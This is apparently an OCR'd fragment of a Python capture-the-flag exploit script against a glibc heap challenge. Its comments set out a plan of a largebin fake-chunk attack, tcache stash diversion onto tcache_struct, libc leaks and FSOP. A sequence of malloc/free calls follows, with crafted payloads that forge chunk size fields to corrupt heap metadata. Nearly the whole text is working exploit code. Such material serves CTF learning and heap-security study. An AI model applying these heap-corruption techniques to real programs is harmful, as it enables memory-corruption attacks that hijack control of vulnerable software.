 ```py

    sl(x.stdout)

# NEW PLAN 
# largebin chunk faking to get waf + tcache stashing unlink or house of water to get libc pointer in tcache_struct + fsop 
# STEP 1 : PULL OF A LARGEBIN SKIP ATTACK ON A FAKE CHUNK AND GET WRITE AFTER FREE
# STEP 2 : DO A TCACHE STASH DIVERSION ATTACK TO GET ALLOCATION OVER TCACHE_STRUCT
# STEP 3 : FREE THE FAKE LARGEBIN CHUNK IN PERTHREAD STRUCT TO GET LEAKS 
# STEP 4 ? : FSOP T-T PAIN

# LARGEBINS [0x420]->[0x430]
# WE CHANGE LINKS FROM THIS TO [0x420]->[0x420 - FAKE]
# FAKE CHUNK RESTRICTIONS = bk->fd = fd and fd->bk = bk
# WHAT A PAIN THO :D WE HAVE TO ALIGN IT TO 0x100 BYTES

for i in range (11):
    if(i > 7):
        malloc(f"B20-{i}",0x18,"BARRIER")
        malloc(f"B20.1-{i}",0x28,"BARRIER")
    malloc(f"T20-{i}",0x28,"BARRIER")
    if(i == 6):
        malloc(f"VICTIM-0",0x18,"BARRIER")

# PLACING POINTER TO LINK THE LARGEBIN
malloc("MC-1",0x420,"CONSOLIDATE")
malloc("T20-11",0x28,"BARRIER")
malloc("T20-12",0x28,"BARRIER")
malloc("T20-13",0x28,"BARRIER")

for i in range (7):
    free(f"T20-{i}")

free("T20-12")
free("T20-9")
free("T20-8")
free("T20-7")

malloc("MC-0",0x420,"CONSOLIDATE")

# CONSOLIDATING FASTBINS TO GET POINTERS IN PLACE
free("B20.1-9")
free("B20.1-8")

# THERE IS SOME FUTURE SETUP HERE WHICH WILL BE REVEALED IN TIME
free("MC-1")
malloc("MC-2",0x420,b"CONSOLIDATE:D YE" + 0xa0*b"\x00" + p64(0x460) + p64(0x3a1) + 
        0x2b0*b"\x00" + 
        p64(0x430) + p64(0xe0))

# WE HAVE SUCCESFULLY fsD A LARGEBIN CHUNK'S TOP
malloc("VICTIM",0x58,0x28*b"a" + p64(0x431) + b"\x80")
malloc("ACCOMPLICE",0x58,0x28*b"a" + p64(0x961))

free("T20-13")
malloc("MC-3",0x420,b"CONSOLIDATE HEHE")
free("MC-3")
free("MC-0")

# BYE LARGEBIN YOU WILL BE MISSED
malloc("MC-4",0x420,b"LARGEBIN SACRIFICE")
malloc("B-1",0x48,b"YOU CANT GO INTO THE WILDERNESS YET")

```
